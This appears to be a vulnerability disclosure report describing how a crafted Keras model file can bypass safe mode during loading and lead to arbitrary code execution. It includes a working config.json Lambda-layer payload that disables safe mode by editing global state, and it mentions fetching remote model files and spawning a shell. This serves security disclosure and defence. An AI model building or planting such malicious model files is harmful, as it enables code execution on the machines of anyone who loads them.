 1. **Disable Safe Mode** by setting the `safe_mode_saving` attribute to `False`.
2. **Load a new model** in insecure settings, leading to arbitrary code execution.
3. *(Optional)* **Download a model file from the Internet** using Keras utilities (inspired by [this blog post](https://jfrog.com/blog/keras-safe_mode-bypass-vulnerability/) by Andrey Polkovnichenko, JFrog Security Researcher)

The last step is not strictly necessary for the exploit to work, but it makes the exploit more flexible and powerful. Alternatives include using a file shipped with the original model, a file already present on the system, a model from the `hf://` scheme (assuming a compromised model is available on Hugging Face), and so on.

**Note**: This exploit is only an example. The core point of the report is that an attacker can use code reuse to perform unintended operations during model loading, including, for instance, spawning a shell.


**Step 1: Disabling safe mode**

The first observation to do is that simply passing `safe_mode=False` to `load_model` is **not sufficient**, as Keras prioritizes its global state. Specifically, in `keras/src/saving/serialization_lib.py`, the following code is executed:

```python
safe_scope_arg = in_safe_mode()  # Enforces SafeModeScope
safe_mode = safe_scope_arg if safe_scope_arg is not None else safe_mode
```

Since the code we are executing runs in the context of another `load_model` call that we cannot control, to disable safe mode effectively, we must **modify the global state**.

We achieve this by invoking `keras.src.backend.common.global_state.set_global_attribute`, setting `safe_mode_saving` to `False`.
Here’s a snippet of the `config.json` layer achieving this:

```json
{
  "module": "keras.layers",
  "class_name": "Lambda",
  "config": {
    "name": "set_global_state",
    "function": {
      "module": "keras.src.backend.common.global_state",
      "class_name": "function",
      "config": "set_global_attribute",
      "registered_name": "function"
    },
    "arguments": {
      "value": false
    }
  },
  "name": "set_global_state",
  "inbound_nodes": [
    {
      "args": [],
      "kwargs": {
        "inputs": "safe_mode_saving"
      }
    }
  ]
}
```
Inside the `function` key, the `config` field specifies the name of the function within the module (defined by the `module` entry) to call.
To better understand this JSON snippet and how the arguments are passed, let's look at `keras/src/layers/core/lambda_layer.py`, where the `call` method processes function arguments and passes them to the target function.
